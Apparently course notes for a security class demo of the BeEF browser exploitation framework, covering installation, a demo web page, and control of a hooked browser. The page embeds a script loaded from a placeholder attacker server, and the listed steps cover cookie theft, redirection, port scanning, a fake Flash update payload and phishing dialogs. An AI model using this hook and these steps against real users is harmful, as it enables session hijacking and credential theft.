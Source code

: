 <h5><em>ver: Aug-2022</em></h5>

---

<h2>Browser Exploitation Framework (BeEF)</h2>

Refer to https://beefproject.com/

<h4>Setup BeEF</h4>

1. Install BeEF on Kali Linux (Not a default tool)
2. Setup BeEF configuration file (set id and password)
3. Open BeEF
4. Open a web browser and go to "http://localhost:3000/ui/authentication".
5. Enter the id and passwd to the browser

```sh
sudo apt install beef-xss
# set id/passwd. Default valeus does not work.
sudo nano /etc/beef-xss/./config.yaml
cd /usr/share/beef-xss
./beef

```

---

<h4>Exploitation Example</h4>

1. Identify attacker's ip-address

```sh
ifconfig
```

2. Identify victiom's ip-address

```sh
ipconfig
ping attack-ip-address
```

3. Create a compromised web page by hooking the BeEF script

```html
<html lang="en">
    <head>
        <title>CS 435 Demo Page (BeEF)</title>
    </head>
    <body>
        <script src="http://attacker-server-ip-address:3000/hook.js"></script>
        <h2>This is CS 435 Demo Page</h2>
        <h4>School of Arts and Sciences</h4>
        <h4>Carolina University</h4>
        <h3>THIS IS A MALICIOUS WEB-PAGE</h3>
        <a href="http://cnn.com"> LINK to "cnn.com" </a>
    </body>
</html>
```

4. A victim's web-browser access to the compromised web-server. (Attacker's server)

5. Verify hook-ups on BeEF
   4-1. Current Browser -> Details
   4-2. Current Browser -> Network

6. Control the victim's web-browser.

    5-1. Current Browser -> Command -> Browser -> Get Cookie -> check Command results
    5-2. Current Browser -> Command -> Browser -> Redirect Browser (iFrame) -> set New Favicon & Redirect URL (Monitor the url window)
    5-3. Current Browser -> Command -> Network -> Port Scanner -> set ip-address for scanning
    5-4. Current Browser -> Command -> Social Engineering -> Fake Flash Update -> set Image & Custom Payload URL
    5-5. Current Browser -> Command -> Social Engineering -> Google Phishing -> set XSS hook URI -> check Command results
    5-6. Current Browser -> Command -> Social Engineering -> Pretty Theft -> set Dialog Type & Custom Logo -> check Command results
